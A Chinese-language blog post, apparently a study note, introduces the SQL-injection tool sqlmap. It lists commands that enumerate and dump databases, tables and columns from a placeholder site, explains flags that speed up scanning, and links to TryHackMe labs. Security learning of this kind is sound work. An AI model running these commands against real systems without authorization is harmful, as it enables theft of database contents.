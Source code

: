 ```yaml
---
layout: post
title:  "SQLMap"
date:   27 June 2025
categories: Demo
tags: Cybersecurity
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
迅速了解強大的SQLi工具: `sqlmap`。本文會介紹它的基礎用法和適用場景，有興趣的可再詳細研究，因為 `sqlmap` 的功能面廣，可能沒辦法在這一篇文章中涵蓋全部，因此今天只介紹它的常用指令

### 常用指令(GET)

```bash
# 枚舉所有database
sqlmap -u 'http://test.com/search/?query=cat' --dbs
# 枚舉database=blog下所有的tables
sqlmap -u 'http://test.com/search/?query=cat' -D blog --tables
# 枚舉database=blog,table=articles下所有的columns
sqlmap -u 'http://test.com/search/?query=cat' -D blog -T articles --columns
# 找出在databa=blog,table=articles,column(title)='life'對應的column(author)值
# 也就等同於 use blog; select author from articles where title='life';
sqlmap -u 'http://test.com/search/?query=cat' -D blog -T articles -C author --dump --where="title='life'"
```

### 常用加快進程參數
因為 `sqlmap` 在初步偵測(database/table/column)的時候採用枚舉，速度會非常慢，因此大多都搭配參數提高效率:
- `--batch`: 跳過執行過程中需要手動回答的選項，全部採用默認
- `--threads=5`: 多線程
- `--retries=1`: 每次失敗再執行幾次
- `--level=1`: 測試範圍(1~5)
- `--timeout=10`: 每次請求等待多久
- `--technique=U`: 限定使用什麼方法(default:"BEUSTQ")
    - `B`: boolean-based
    - `E`: error-based
    - `U`: union-based
    - `S`: stacked-queries
    - `T`: time-based
    - `Q`: inline-queries


### 其他參數
- `-hh`: 全部的Help菜單
- `-r`: 用於POST請求的sqlmap，用法為: `-r post_requests.txt` 這個文件儲存POST請求格式，最簡單的方法可使用Burp-suite攔截並儲存(Copy to file)
- `-p`: 要注入的參數，通常搭配POST請求使用
- `--data`: 要加到POST請求的data: `--data="id=1"`
- `--dump-all`: dump出所有database下的所有資料
- `--current-user`: 枚舉出當前DBMS用戶


### 自我總結


## 學習資料
1. [TryHackMe - SQLMap: The Basics](https://tryhackme.com/room/sqlmapthebasics)
2. [TryHackMe - SQLMAP](https://tryhackme.com/room/sqlmap)
3. [TryHackMe - GameZone](https://tryhackme.com/room/gamezone)

</div>
</body>
</html>
